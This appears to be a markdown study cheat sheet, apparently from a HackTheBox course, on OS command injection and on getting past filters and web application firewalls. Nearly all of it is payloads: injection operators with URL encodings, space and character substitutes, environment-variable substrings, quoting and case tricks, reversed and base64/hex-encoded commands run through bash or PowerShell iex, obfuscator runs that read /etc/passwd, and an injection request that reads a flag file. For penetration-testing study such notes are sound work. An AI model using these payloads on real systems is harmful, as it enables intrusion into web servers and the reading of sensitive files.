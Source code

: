 ### Content
- [Command Injection Methods](#command-injection-methods)
- [Evasion](#evasion)
	- [Substring Technique](#substring-technique)
		- [Linux](#linux)
		- [Windows](#windows)
	- [Character Shifting](#character-shifting)
	- [Obfuscation Techniques](#obfuscation-techniques)
	- Tools

> [!Note]
> For mor evasion techniques [PayloadsAllTheThings/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

---
#### Command Injection Methods
| **Injection Character** | **URL-Encoded Character** | **Executed Command**                       | Restrictions            |
| ----------------------- | ------------------------- | ------------------------------------------ | ----------------------- |
| ;                       | %3b                       | Execute command1 and then command2         | Not working in CMD      |
| \n                      | %0a                       | Both                                       |                         |
| &                       | %26                       | Execute command1 in the background         |                         |
| \|                      | %7c                       | Pipe the output of command1 into command2  |                         |
| &&                      | %26%26                    | Execute command2 only if command1 succeeds |                         |
| \|\|                    | %7c%7c                    | Execute command2 only if command1 fails    |                         |
| ``                      | %60%60                    | Both                                       | Sub-Shell for Unix-Only |
| $()                     | %24%28%29                 | Both                                       | Sub-Shell for Unix-Only |
> [!Warning]
> The `\n` on burp suite  gets URL-Encoded as separate characters to `%5C%6E`

---
# Evasion
- **Blacklist** with PHP code example:
	``` PHP
	$blacklist = ['&', '|', ';', ...SNIP...];
	foreach ($blacklist as $character) {
	    if (strpos($_POST['ip'], $character) !== false) {
	        echo "Invalid input";
	    }
	}
	$commands_blacklist = ['whoami', 'cat', ...SNIP...];
	foreach ($commands_blacklist as $word) {
	    if (strpos('$_POST['ip']', $word) !== false) {
	        echo "Invalid input";
	    }
	}
	```
- If the error message displayed in field where the output is displayed, That mean it has been detected by the backend language like `PHP`.
- If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
- If the space character is blacklisted even if it's encoded `+`, Try:
	- `%09` tabs (Works on Linux and Windows). `127.0.0.1%0a%09`
	- `${IFS}` Linux Environment Variable may also work since its default value is a space and a tab. `127.0.0.1%0a${IFS}`
	- `Bash Brace Expansion`, which automatically adds spaces between arguments wrapped between braces. `127.0.0.1%0a{ls,-la}`
### Substring Technique
We can use a substring from an environment variable if typing that substring directly is blacklisted:
##### Linux
- Print all env vars with the command `printenv`, Example: `127.0.0.1%0a${IFS}printenv`
	- Specifying `start` index and `length` for substring.
	- `${PATH:0:1}` will be `/`, Ex: `127.0.0.1%0als${PATH:0:1}` to list the root directory.
	- `${LS_COLORS:10:1}` will be `;`, Ex: `127.0.0.1${LS_COLORS:10:1}${IFS}` will result in `127.0.0.1; `
##### Windows
- `CMD`: Use `SET` command to list all env vars.
	- we can `echo` a Windows variable (`%HOMEPATH%` -> `\Users\comp-user`)
	- Specify a starting position (`~6` -> `\comp`)
	- Specify a negative end position, which in this case is the length of the username `comp-user` (`-9` -> `\`)
	- `echo %HOMEPATH:~6,-9%` will result in `\`
- `PowerShell`: Use `Get-ChildItem env:` to list all env vars.
	- A word in `Powershell` is considered an array, so we can specify the index of the character we need.
		- `$env:HOMEPATH[0]` will result in `\`
### Character Shifting
Science every character has its own ascii code, Write a specific character with intention to change its ascii value to become another character when processed.
- Linux (Shifting characters by 1) 
	``` bash
	$ man ascii     # To display the ascii table
	$ echo $(tr '!-}' '"-~'<<<[) # [ (ascii:133) will become \ (ascii:134) 
	$ echo $(tr '!-}' '"-~'<<<:) # : (ascii:72) will become ; (ascii:73)
	$ echo $(tr '!-}' '"-~'<<<.) # . will become /
	```
- Windows (Shifting character by 1)
	- PowerShell
		``` Powershell
		PS C:\Users\user> [char](([int][char]'[') + 1) # [ (ascii:133) will become \ (ascii:134) 
		PS C:\Users\user> [char](([int][char]':') + 1) # : (ascii:72) will become ; (ascii:73)
		```
### Obfuscation Techniques
- Ignored characters by command shells:
	- Linux & Windows (Bash and PowerShell)
		-  Characters like `'`, `"`, Example: `whoami` = `w'h'o'am'i` = `w"h"o"am"i`
	- Linux
		- Characters like `\`, `$@`, Example: `whoami` = `who$@ami` = `w\ho\am\i`
	- Windows
		- Characters like `^`, Example: `whoami` = `who^ami`
- Case Manipulation:
	- Linux (Don't forget to replace spaces if they are blocked)
		- Commands for Bash are case-sensitive, workarounds: 
			- `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`
			- `$(a="WhOaMi";printf %s "${a,,}")`
	- Windows (PowerShell and CMD)
		- Commands for PowerShell and CMD are case-insensitive, Example: `WhOaMi`= `WHOAMI`
- Reversed Commands:
	- Linux
		- To reverse a command `echo 'whoami' | rev`
		- To reverse the reversed `$(rev<<<'imaohw')`
	- Windows
		- To reverse a string`"whoami"[-1..-20] -join ''`
		- Execute a reversed command directly with PowerShell sub-shell `iex "$('imaohw'[-1..-20] -join '')"`
- Encoded Commands:
	- Linux
		- b64 encoding then decode and execute using `base64` and `openssl`
			- ``echo -n 'whoami' | base64``
				- `bash<<<$(base64 -d<<<d2hvYW1p)`
				- `bash<<<$(openssl base64 -d<<<d2hvYW1p)`
			- convert the string from `utf-8` to `utf-16` before we `base64` it: `echo -n whoami | iconv -f utf-8 -t utf-16le | base64`
		- Hex encoding with `xxd`
			- `echo -n 'whoami' | xxd -p`
				- `bash<<<$(xxd -r -p<<<'77686f616d69')`
		- Combine b64 encoding with Hex encoding
			1. Encode the original command in Base64: `echo -n 'whoami' | base64`
			2. Encode the Base64 output in Hex: `echo -n 'd2hvYW1p' | xxd -p`
			3. Decode and Execute: `bash<<<$(base64 -d<<<$(xxd -r -p<<<'6432687659573170'))`
	- Windows
		- b64 encoding
			- `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`
				- `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`
---
# Tools
- Linux ([Bashfuscator](https://github.com/Bashfuscator/Bashfuscator))
	``` bash
	$ git clone https://github.com/Bashfuscator/Bashfuscator
	$ cd Bashfuscator
	$ pip3 install setuptools==65
	$ python3 setup.py install --user
	$ ./bashfuscator -c 'cat /etc/passwd'
	$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
	
	[+] Mutators used: Token/ForCode
	[+] Payload:
	eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
	[+] Payload size: 104 characters
	# Test the outputted command with bash -c ''
	$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'
	```
- Windows ([DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation))
	``` bash
	PS > git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
	PS > cd Invoke-DOSfuscation
	PS > Import-Module .\Invoke-DOSfuscation.psd1
	PS > Invoke-DOSfuscation
	Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
	Invoke-DOSfuscation> encoding
	Invoke-DOSfuscation\Encoding> 1
	
	...SNIP...
	Result:
	typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\...SNIP...
	```
---
`GET /files/index.php?to=&from=flag.txt${IFS}%24%28c'a't${IFS}${PATH:0:1}flag.txt%29&finish=1&move=1 HTTP/1.1`
